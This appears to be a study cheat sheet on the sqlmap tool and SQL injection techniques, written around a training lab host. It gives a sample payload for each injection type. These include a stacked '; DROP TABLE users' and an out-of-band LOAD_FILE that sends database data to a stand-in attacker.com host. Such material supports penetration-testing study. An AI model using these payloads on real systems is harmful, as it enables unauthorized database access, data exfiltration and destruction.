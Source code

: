 ** Detects and exploits SQL injection flaws

```shell-session
python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'
```

```shell-session
sudo apt install sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
python sqlmap.py
```

## Supported SQL Injection Types
```shell-session
sqlmap -hh
```
- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

## Boolean-based SQL Injection
```shell-session
AND 1=1
```

## Error-based SQL Injection
```shell-session
AND GTID_SUBSET(@@version,0)
```
- DBMS may respond with errors for a query, giving valuable information on what it is looking for

## UNION query-based
```shell-session
UNION ALL SELECT 1,@@version,3
```

## Stacked queries
```shell-session
; DROP TABLE users
```

## Time-based blind SQL Injection
```shell-session
AND 1=IF(2>1,SLEEP(5),0)
```

## Inline queries
```shell-session
SELECT (SELECT @@version) from
```

## Out-of-band SQL Injection
```shell-session
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```



